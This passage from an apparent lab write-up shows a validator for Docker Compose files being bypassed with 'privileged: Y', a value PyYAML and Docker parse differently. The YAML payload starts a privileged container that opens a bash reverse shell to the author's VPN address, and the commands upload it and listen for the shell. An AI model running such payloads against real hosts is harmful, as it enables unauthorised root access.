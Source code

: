 ~~~py
    return True

def check_read_only(volumes):
    for volume in volumes:
        if not volume.endswith(":ro"):
            return False
    return True

def check_no_symlinks(volumes):
    for volume in volumes:
        parts = volume.split(":")
        path = parts[0]
        if os.path.islink(path):
            return False
    return True

def check_no_privileged(services):
    for service, config in services.items():
        if "privileged" in config and config["privileged"] is True:
            return False
    return True
~~~
{:file="/opt/secure_compose.py" .nolineno}


#### Privileged Container Bypass

The `check_no_privileged` check was bypassed using a special YAML value `Y`, which is interpreted as _true_ by Docker's YAML parser while PyYAML interprets it as the string "Y". We created a YAML file that would start a privileged Docker container with the **cybermonday_api** image, then call a reverse shell from inside.

~~~yaml
# Privileged Container Bypass
version: "3.0"
services:
  privileged-bypass:
    image: "cybermonday_api" # We know that this one exists from earlier
    privileged: Y # PyYAML -> "Y"; Docker -> true
    command: ["bash","-c","bash -i>&/dev/tcp/10.10.14.2/8888<&1"] # 10.10.14.2 is our VPN address
~~~
{:file="privileged-bypass.yml"}

~~~zsh
# Upload our YAML exploit
scp ./privileged-bypass.yml john@$rhost:/tmp/privileged-bypass-OsE7Cu.yml

# Setup reverse shell listener
pwncat-cs -l $lhost 8888 # install PwnCat: `pip3 install pwncat-cs`
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

The device that stores the root filesystem was located at `/dev/sda1`{:.filepath} with the `findmnt` utility. We finally started the privileged container using the custom sudo policy, which triggered the reverse shell callback.
